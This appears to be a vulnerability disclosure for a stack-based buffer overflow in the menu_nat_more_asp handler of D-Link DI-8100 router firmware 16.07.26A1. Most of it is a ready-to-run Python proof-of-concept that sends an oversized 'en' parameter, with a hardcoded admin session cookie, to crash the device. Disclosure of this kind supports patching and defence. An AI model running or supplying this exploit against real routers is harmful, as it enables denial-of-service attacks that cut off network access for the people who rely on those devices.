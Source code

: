 
A critical stack-based buffer overflow vulnerability exists in the menu_nat_more_asp function of D-Link DI-8100 routers running firmware version 16.07.26A1. This vulnerability could allow remote attackers to cause a Denial of Service (DoS) condition by sending specially crafted HTTP requests to vulnerable devices.

![](./picture/1.png)

![](./picture/2.png)

POC:
```python
import requests
from pwn import *
import time

def exploit(target_ip):
    auth_cookie = "wys_userid=admin,wys_passwd=520E1BFD4CDE217D0A5824AE7EA60632"
    
    timestamp = int(time.time())
    attack_url = f"http://{target_ip}/menu_nat_more.asp?_{timestamp}"
    pay =  b"A"*0x6000
	
    payload = {
		"opt": "add",              
		"src": "bypass_rule",         
		"en": pay,                  
		"nat_inter_en": "0",        
		"interface": "255",         
		"target_addr_type": "CONTROLLED_VALUE",  
		
		"src_addr": "1.1.1.1",
		"src_netmask": "255.255.255.0",
		"target_addr": "2.2.2.2",
		"target_netmask": "255.255.0.0",
		"to_address": "test"
    }
    
    headers = {
        "Host": target_ip,
        "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:135.0) Gecko/20100101 Firefox/135.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
        "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        "Accept-Encoding": "gzip, deflate, br",
        "Connection": "keep-alive",
        "Cookie": auth_cookie,
        "Upgrade-Insecure-Requests": "1",
        "Priority": "u=0, i"
    }
    
    try:
        response = requests.get(
            attack_url,
            params=payload,  
            headers=headers,
            timeout=5,
            verify=False
        )
        
        print(f"Response status code: {response.status_code}")
        print(f"Response length: {len(response.text)} bytes")
        
        print("\nResponse preview:")
        print(response.text[:500])
        
    except Exception as e:
        print(f"[!] The request failed: {str(e)}")

if __name__ == "__main__":
    TARGET_IP = "192.168.0.1"  
    exploit(TARGET_IP)

```

![](./picture/3.png)

![](./picture/4.png)

![](./picture/5.png)

![](./picture/6.png)

![](./picture/7.png)

